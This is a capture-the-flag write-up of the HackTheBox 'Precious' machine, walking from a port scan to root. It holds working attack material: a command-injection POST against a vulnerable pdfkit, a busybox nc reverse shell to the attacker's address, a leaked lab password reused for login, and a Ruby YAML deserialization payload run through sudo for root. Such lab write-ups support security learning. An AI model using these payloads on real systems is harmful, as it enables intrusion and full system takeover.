```yaml
---
tags:
  -  htb
revisit: true
---
```

# HackTheBox: [Precious](https://app.hackthebox.com/machines/Precious)

> [!tip]- Spoiler Summary
> This target is running a simple web app with a vulnerable version of `pdfkit`, which allows for a foothold. Lateral movement is possible via leaked credentials and password reuse. Privilege escalation is possible by exploiting Ruby's YAML library.

## Services

### TCP

First, a TCP [port scan with `nmap`](nmap-20240610.md):

```console
# Nmap 7.94SVN scan initiated Tue Aug  6 15:03:38 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.11.189)
Host is up (0.092s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.189], RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]
ERROR Opening: http://precious.htb/ - no address for precious.htb

$ whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

## RCE

Here is how I achieved remote code execution on the target system.

![](_/htb-precious-20240806-3.png)

I spent some time hunting for an RCE vulnerability in "Phusion Passenger 6.0.15", but couldn't find anything.

But, I got code execution via a POST parameter:

```console
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://precious.htb
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1
url=http%3A%2F%2F10.10.14.8%2Ffoo$(id)
```

This resulted in the following request to my web server:

```console
10.10.11.189 - - [06/Aug/2024 15:27:20] "GET /foouid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```

My command options were limited via that vector. I was useful for recon (`cat /etc/passwd`, `cat /proc/self/environ`, and the like) but I couldn't use `>` redirection and many commands failed in ways I couldn't work around.

Eventually I realized that the web service was using a [vulnerable pdfkit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795), so passing an argument like the following was enough to get a reverse shell.

```text
http://example.htb/?name=#{'%20`busybox nc 10.10.14.8 443 -e sh`'}
```

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.189] 40806
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## Lateral Movement

Here's how I was able to escalate privileges for full control of the system.

```ruby
ruby@precious:/opt$ cat update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

ruby@precious:/opt$ cat sample/dependencies.yml
yaml: 0.1.1
pdfkit: 0.8.6
```

```console
ruby@precious:/opt$ ls -l update_dependencies.rb sample/dependencies.yml
-rw-r--r-- 1 root root  26 Sep 22  2022 sample/dependencies.yml
-rwxr-xr-x 1 root root 848 Sep 25  2022 update_dependencies.rb
```

`ruby@precious:/var/www/pdfapp/app/controllers/pdf.rb`:

```ruby
class PdfControllers < Sinatra::Base
  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end
  get '/' do
    erb :'index'
  end
  post '/' do
    url = ERB.new(params[:url]).result(binding)
    if url =~ /^https?:\/\//i
      filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
      path = 'pdf/' + filename
      begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
          send_file path, :disposition => 'attachment'
      rescue
           @msg = 'Cannot load remote URL!'
      end
    else
        @msg = 'You should provide a valid URL!'
    end
    erb :'index'
  end
end
```

Found creds for user `henry`:

```console
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~$ su - henry
Password:
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

That config file comes from [Bundler](https://bundler.io/v1.12/man/bundle-config.1.html). In this case, the credentials have been reused for the local login on the target.

## Privilege Escalation

User `henry` has Sudo privileges on the previously discovered Ruby script:

```console
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

I know the script reads a file called `dependencies.rb` from the current working directory, so I should be able to modify that file to get a root shell somehow.

I found a nice post called [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/). I adapted the payload [from here](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565).

Here's the working payload:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: sh
         method_id: :resolve
```

```console
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Credits

- [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
